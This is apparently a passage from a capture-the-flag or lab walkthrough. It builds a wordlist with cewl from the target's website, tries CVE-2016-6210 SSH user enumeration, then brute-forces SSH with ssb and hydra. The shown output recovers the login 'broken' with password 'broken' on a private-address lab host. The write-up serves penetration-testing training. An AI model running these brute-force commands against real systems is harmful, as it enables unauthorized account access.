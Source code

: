 ```
avrahamcohen.ac@gmail.com
```
Since we have nothing from that one, we enumerate more the web, but also since we know that ssh on version 7.2p2 are vulnerable for user enumeration we create file list from the users we found on the web for use them later on. So far we found bob and avrahamcohen, also ac can be username in that case, so we make list of users from what we found. Also we can run `cewl`.
```
└─$ cewl http://192.168.166.24 -m 3 -w cewl_80.txt -v  
```
That `cewl` create from the web wordlist that contain words with minimum 3 letters for a word.

3. SSH Enumeration: so now, we can run exploit specific for **CVE-2016-6210**, which is username enumeration for that ssh version (7.2p2), I have use `searchsploit` and also download several python exploit that I found on github, but none of them work, also part of them have some error about `time.clock()` which can be solve by update the code to use `time.process_time()` instead. But still the username can't be found, so I use `ssb` with bash code to go against each user.
```
└─$ for user in $(cat ./cewl_80.txt ); do ssb -w ./cewl_80.txt -p 22 $user@192.168.166.24;done> ssb_out.txt
```
With that one I have found that broken user are exist on the target.
```
Secure Shell Bruteforcer
infosec@kitabisa.com
________________________
:: Username: broken
:: Hostname: 192.168.166.24
:: Port    : 22
:: Wordlist: ./cewl_80.txt
:: Threads : 100
:: Timeout : 30s
________________________
[VLD] Connected with 'broken'.
[INF] Done!
```
From that `ssb` tool it's look like broken user exist and also it's password are broken, we can also run `hydra` against the target, it will take more time then the `ssb`, but in some cases it work better then `ssb`.
```
└─$ hydra -L ./users.txt -P ./users.txt 192.168.166.24 ssh -I -t 16
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-18 09:19:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1024 login tries (l:32/p:32), ~64 tries per task
[DATA] attacking ssh://192.168.166.24:22/
[STATUS] 310.00 tries/min, 310 tries in 00:01h, 718 to do in 00:03h, 12 active
[22][ssh] host: 192.168.166.24   login: broken   password: broken
[STATUS] 298.00 tries/min, 596 tries in 00:02h, 432 to do in 00:02h, 12 active
[STATUS] 283.67 tries/min, 851 tries in 00:03h, 177 to do in 00:01h, 12 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-18 09:23:02
```
